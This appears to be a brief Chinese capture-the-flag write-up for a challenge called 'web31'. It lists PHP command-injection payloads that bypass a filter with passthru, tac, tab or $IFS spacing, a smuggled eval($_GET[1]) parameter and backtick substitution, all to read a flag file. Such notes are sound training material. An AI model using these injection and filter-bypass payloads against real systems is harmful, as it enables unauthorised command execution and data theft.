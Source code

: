 # web31
![](vx_images/350757019768844.png)
用tac读取文件,"代替',passthru代替system,%09代替空格(get传参不要用${IFS},要的话需转义\$)
```
c=passthru("tac%09fla*");
c=passthru("tac\${IFS}fla*");
```
还可以用参数传递
```
?c=eval($_GET[1]);&1=passthru("tac\$IFS\$9fla*");
```

内联
```
/?c=passthru("tac\${IFS}`ls`");
```